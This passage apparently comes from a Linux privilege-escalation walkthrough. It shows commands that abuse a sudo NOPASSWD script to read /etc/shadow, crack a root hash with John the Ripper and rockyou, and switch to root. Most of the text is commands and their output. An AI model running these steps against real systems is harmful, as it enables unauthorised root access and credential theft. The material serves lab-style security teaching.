 ```shell
user ALL=(ALL:ALL) NOPASSWD: /home/user/input.sh
```

List the sudo configuration:

```shell
user@pwn:~$ sudo -l
Matching Defaults entries for user on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (ALL : ALL) NOPASSWD: /home/user/input.sh
```

If there's a program that lets we specify its configuration (such as apache2) and prints on screen a syntax error and an invalid command, we may be able to see sensitive information:

```shell
user@pwn:~$ sudo /home/user/input.sh /etc/shadow
root:$6$xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:18982:0:99999:7:::
daemon:*:18858:0:99999:7:::
bin:*:18858:0:99999:7:::
sys:*:18858:0:99999:7:::
```

Add this hash to a file:

```shell
user@pwn:~$ echo '$6$xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' > hash.txt
user@pwn:~$ cat hash.txt 
$6$xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

Now we can crack the hash with a password recovery tool:

```shell
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pass123          (?)
1g 0:00:00:01 DONE (2021-12-20 18:35) 0.9345g/s 5263p/s 5263c/s 5263C/s allison1..katana
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We know the password, let's switch to the root user:

```shell
su root
```

# Privilege Escalation via NOPASSWD
